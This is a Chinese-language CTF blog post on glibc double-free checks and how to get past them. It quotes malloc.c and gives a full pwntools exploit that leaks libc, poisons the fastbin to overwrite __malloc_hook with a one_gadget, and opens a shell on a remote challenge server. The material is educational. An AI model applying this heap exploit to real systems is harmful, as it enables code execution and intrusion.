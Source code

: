 ```yaml
---
title: double free or corrupttion
date: 2018-11-14 17:12:30
tags: pwn basic
layout: post
---
```

DOUBLE FREE OR CORRUPTION！

<!--more-->
# Souce
[源码][1]是一切问题的基础。
# Double free
这次主要从源码层面看看double free的各个报错成因，以及绕过姿势。

# Fastbin 
## fasttop
int_free===>if ((unsigned long)(size) <= (unsigned long)(get_max_fast ())
也就是free到fastbin对于doublefree的检测....非常友好
```python
 if (SINGLE_THREAD_P)
      {
        /* Check that the top of the bin is not the record we are going to
           add (i.e., double free).  */
        if (__builtin_expect (old == p, 0))
          malloc_printerr ("double free or corruption (fasttop)");
        p->fd = old;
        *fb = p;
      }
    else
      do
        {
          /* Check that the top of the bin is not the record we are going to
             add (i.e., double free).  */
          if (__builtin_expect (old == p, 0))
            malloc_printerr ("double free or corruption (fasttop)");
          p->fd = old2 = old;
        }
      while ((old = catomic_compare_and_exchange_val_rel (fb, p, old2))
             != old2);
```
这货比较无脑主要是check上个free过得chunk和现在的是不是一样....
所以绕过方式也比较简单
```python
free(1)
free(2)
free(1)
```
如果fastbin中可以freefree过的chunk，那么可以在fastbin中为所欲为...
## EZ_heap
su_2018_招新赛的一题[附件][2]
直接通过doublefree做fastbin_atk改写__malloc_hook然后doublefree触发printerr就可以了
```python
from pwn import *
def cmd(c):
	p.sendlineafter("choice : ",str(c))
def add(size,name,kind="A"):
	cmd(1)
	p.sendlineafter("name :",str(size))
	p.sendafter("animal :",name)
	p.sendlineafter("animal :",kind)
def show():
	cmd(2)
def free(idx):
	cmd(3)
	p.sendlineafter("cage:",str(idx))
def clear_all():
	cmd(4)
p=process("./pwn")
p=remote("43.254.3.203",10006)
#context.log_level='debug'
add(0x1000000090,"A\n")#0
add(0x18,"\n")#1
free(0)
add(0x18,"\n")#2
show()
p.readuntil("[2] :\n")
base=(u64((p.readline()[:-1]+"\x00").ljust(8,'\x00'))<<8)-(0x7fa2234a1b00-0x00007fa2230dd000)
log.warning(hex(base))
#gdb.attach(p)
add(0x60,"\n")#3
add(0x60,'\n')#4

free(3)
free(4)
free(3)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
libc.address=base
add(0x60,p64(libc.symbols['__malloc_hook']-35))#3
add(0x60,"\n")#4
add(0x60,"\n")#5
one=0xf02a4+base
add(0x60,'\x00'*19+p64(one))
free(4)
free(4)
#gdb.attach(p)
p.interactive()

#x/8gx 0x0000000006020E0
```
# Not fastbin Not mmapped
主要有以下三个检测
```c
/* Lightweight tests: check whether the block is already the
       top block.  */
    if (__glibc_unlikely (p == av->top))
      malloc_printerr ("double free or corruption (top)");
    /* Or whether the next chunk is beyond the boundaries of the arena.  */
    if (__builtin_expect (contiguous (av)
                          && (char *) nextchunk
                          >= ((char *) av->top + chunksize(av->top)), 0))
        malloc_printerr ("double free or corruption (out)");
    /* Or whether the block is actually not marked used.  */
    if (__glibc_unlikely (!prev_inuse(nextchunk)))
      malloc_printerr ("double free or corruption (!prev)");
```
第一个检测是否是topchunk...一般利用的时候没啥问题
第二个检测本个chunk的末尾是否超出topchunk+topchunk_size...一般注意点改size没啥大问题
第三个检测应该是最常见的，检查下一个chunk的pre_preinuse位，解决方法也就是改pre_preinuse...
看完了doublefree...的几个报错感觉没啥好说的...都比较基础....
就当整合一下知识把...
## over
感觉double free 算是uaf中最友好的利用起来也非常人性化....
本来以为工作量挺大的....没想到20min就写完了....可能太菜了没发觉真正值得研究的东西...


[1]:https://code.woboq.org/userspace/glibc/malloc/malloc.c.html
[2]:https://github.com/n132/Watermalon/tree/master/SUCTF_2018